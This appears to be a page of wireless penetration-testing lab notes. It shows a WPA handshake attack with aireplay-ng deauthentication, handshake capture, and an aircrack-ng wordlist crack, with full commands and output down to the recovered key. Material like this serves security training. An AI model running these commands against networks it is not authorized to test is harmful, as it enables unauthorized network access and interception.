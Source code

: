 Using **aireplay-ng** with **-0 1** to deauthenticate once, **-a** to target our BSSID, and **-c** to identify the associate client:

{% code overflow="wrap" %}
```bash
kali@kali:~$ sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon
13:30:30  Waiting for beacon frame (BSSID: 34:08:04:09:3D:38) on channel 1
13:30:30  Sending 64 directed DeAuth (code 7). STMAC: [00:18:4D:1D:A8:1F] [ 0| 0 ACKs]
```
{% endcode %}

Capturing the handshake:

```bash
CH  3 ][ Elapsed: 52 s ][ 2020-02-29 13:31 ][ WPA handshake: 34:08:04:09:3D:38
```

It's not a bad idea to leave the traffic capture running. The additional data will assist in confirming the key is correct later on.

{% hint style="info" %}
Some wireless drivers ignore directed deauthentication and only respond to broadcast deauthentication. We can run the same **aireplay-ng** deauthentication command without the **-c** parameter.

If 802.11w is in use, unencrypted deauthentication frames are ignored. The only course of action is to wait for a client to connect.
{% endhint %}

Using **aircrack-ng** against our recently created capture file, **wpa-01.cap**, specifying the path to our wordlist, the ESSID, and the BSSID:

{% code overflow="wrap" %}
```bash
kali@kali:~$ aircrack-ng -w /usr/share/john/password.lst -e wifu -b 34:08:04:09:3D:38 wpa-01.cap

                              Aircrack-ng 1.5.2

      [00:00:00] 3424/3559 keys tested (3516.42 k/s)

      Time left: 0 seconds                                     100.00%

                           KEY FOUND! [ 12345678 ]


      Master Key     : 27 A6 FB B3 FA 30 4C CD EE E5 8E 88 36 D0 CC 6D
                       A8 0D AB FE 06 D7 68 DF A1 0B 9F C7 30 03 4F 47

      Transient Key  : 8F C7 EF EF EF EF EF EF 60 1D EC 08 B7 4A 22 71
                       42 A1 A1 35 F2 76 DB C0 A4 42 06 15 5F E0 46 4D
                       E9 10 2F CD 51 22 CE 2E 77 CF 5E 69 DB E4 7C C5
                       FA 72 9A 45 25 D4 D6 53 8B 05 35 2D 24 01 C9 B6

      EAPOL HMAC     : AB D2 9E 97 66 C7 A6 77 7E 63 43 73 CC 73 9A 37
```
{% endcode %}
